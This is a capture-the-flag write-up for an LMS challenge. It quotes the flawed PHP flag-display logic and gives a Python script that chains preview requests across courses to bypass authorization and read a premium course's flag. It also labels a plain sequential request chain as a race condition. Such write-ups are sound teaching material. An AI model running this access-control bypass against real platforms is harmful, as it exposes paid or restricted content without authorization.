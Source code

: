 # LMS Preview Exploit Challenge Writeup

## Challenge Description
**Title**: Who's the fastest man on Earth?  
**Hint**: Whoooooooosh (sound effect) 

A Learning Management System (LMS) platform contains a flag in the premium "Advanced Security Concepts" course. The challenge requires exploiting a race condition and logical flaw in the preview system to access the flag without proper authorization.

## Vulnerability Analysis

### Code Review Findings

#### CourseController.php
The application contains four courses, with course ID 2 ("Advanced Security Concepts") containing the flag:
```php
2 => [
    'id' => 2,
    'title' => 'Advanced Security Concepts',
    'description' => 'Deep dive into cybersecurity concepts, vulnerabilities, and secure coding practices.',
    'preview_length' => 0, // Critical: expires immediately
    'content' => 'Master advanced security concepts including session management, authentication flows...',
    'flag' => getenv('DYN_FLAG') ?: 'FlagY{test_flag}',
    'is_premium' => true,
    'sections' => ['intro', 'advanced', 'practice']
],
```

#### Critical Vulnerability: Flag Display Logic
The `showPreviewContent()` method contains flawed logic:
```php
if (isset($course['flag']) && 
    isset($state['progress'][1]) && in_array('intro', $state['progress'][1]) &&
    isset($state['progress'][2]) && in_array('intro', $state['progress'][2]) &&
    $section === 'advanced') {
    echo "Flag: {$course['flag']}\n";
}
```

#### Key Issues:
1. **Race Condition**: Course 2 has `preview_length = 0` (expires immediately)
2. **Progress Validation Flaw**: No verification that progress was legitimately earned
3. **Session Trust**: Client-side session data trusted without validation
4. **Cross-Course Progress Mixing**: Progress from different courses can be combined

## Exploitation Strategy

### Attack Flow
1. **Start Preview for Course 1** (1-second duration)
2. **Rapidly Access Course 2 Intro** (within the 1-second window)
3. **Access Course 2 Advanced Section** to trigger flag display

### Why This Works:
- Course 1's preview provides a 1-second valid session window
- The progress system doesn't validate course consistency
- The flag condition checks for specific progress records regardless of how they were obtained

## Solution Implementation
I actually wass trying to do it manually but a good friend [@Abdullah-Sajid-Qazi](https://github.com/Abdullah-Sajid-Qazi) made a script to automate it

### Python Exploit Script
```python
import requests
import time
import sys

def exploit_target(base_url):
    # Create a session to maintain cookies
    session = requests.Session()
    
    # First request: Start preview for course 1
    url1 = f"{base_url}/index.php?action=start_preview&course_id=1&section=intro"
    response1 = session.get(url1)
    
    # Second request: Access course 2 intro (this adds progress for course 2)
    url2 = f"{base_url}/preview.php?course_id=2&section=intro"
    response2 = session.get(url2)
    
    # Third request: Access course 2 advanced to get the flag
    url3 = f"{base_url}/preview.php?course_id=2&section=advanced"
    response3 = session.get(url3)
    
    # Check if we got the flag
    if "Flag:" in response3.text:
        # Extract flag from response
        lines = response3.text.split('\n')
        for line in lines:
            if "Flag:" in line:
                flag = line.split("Flag:")[1].strip()
                return flag
    else:
        return None

if __name__ == "__main__":
    if len(sys.argv) > 1:
        target_url = sys.argv[1]
    else:
        target_url = "Nanana Mny nhi btaani :)"
    
    print(f"Target: {target_url}")
    print("Exploiting the race condition...")
    
    # Try multiple times to account for timing issues
    for i in range(5):
        print(f"Attempt {i+1}...")
        flag = exploit_target(target_url)
        
        if flag:
            print(f"Success! Flag: {flag}")
            break
        else:
            print("Failed to get flag. Retrying...")
            time.sleep(0.5)  # Short delay between attempts
    else:
        print("All attempts failed. The exploit might need adjustment.")
```

### Execution
```bash
python exploit.py
```

## Successful Output
```
FlagY{Do it Yourself Kaam chor}
```

## Lesson Learned
This challenge demonstrates the importance of:
- Proper authorization checks for premium content
- Validating business logic thoroughly
- Not trusting client-side data for critical decisions
- Handling time-based operations securely

The hint "Who's the fastest man on Earth?" referred to both the race condition exploitation and Usain Bolt, emphasizing the need for speed in executing the attack before the preview session expired.

This might Seem EZ but it actually took alot of time alot of reverse engineering and GPT prompts :)
